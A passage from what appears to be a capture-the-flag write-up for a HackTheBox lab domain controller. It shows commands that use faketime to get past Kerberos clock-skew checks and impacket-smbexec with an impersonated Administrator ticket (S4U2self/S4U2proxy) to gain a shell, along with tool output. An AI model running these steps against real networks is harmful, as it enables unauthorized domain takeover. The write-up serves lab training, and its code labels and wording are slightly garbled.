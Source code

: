 ####
The error message: *(Clock skew too great)* prevents us from proceeding. I found a good way to bypass Kerberos and prevent it from performing a date check against the DC. The **faketime** tool will help us in this case. The first thing to do is get the current date of the DC and then pass it to the tool:
####
```Ruby
date 10.10.11.174
    Result ->
        Saturday, Abril 19, 2025 9:24:36 PM
```
####
It works like a charm, but it's only possible to use it on the same line. If you use *pipes* after inserting the **faketime**, it won't work. What's left is to export the generated ticket as an environment variable, and finally.
####
```bash
export KRB5CCNAME=Administrator.ccache`
```
####
Then
####
```ruby
KRB5CCNAME=Administrator.ccache faketime "2025-04-19 21:30:08" impacket-smbexec -dc-ip 10.10.11.174 -no-pass -k support.htb/administrator@dc.support.htb
    Result -> 
        [-] CChache file is not found. Skipping...
        [+] Getting TGT for user
        [+] Impersonating Administrator
        [+]     Requesting S4U2self
        [+]     Requesting S4U2proxy
        [+] Saving ticket in Administrator.ccache
```
####
<div class="warning">

>  The fake date must always come before **impacket** and without pipes. If you do this, we can bypass Kerberos verification with the date and gain access to the machine.
</div>

####
<div class="info">

> When we connect with **smbexec**, we need to use 100% Windows commands and absolute paths, always using `C:`.
</div>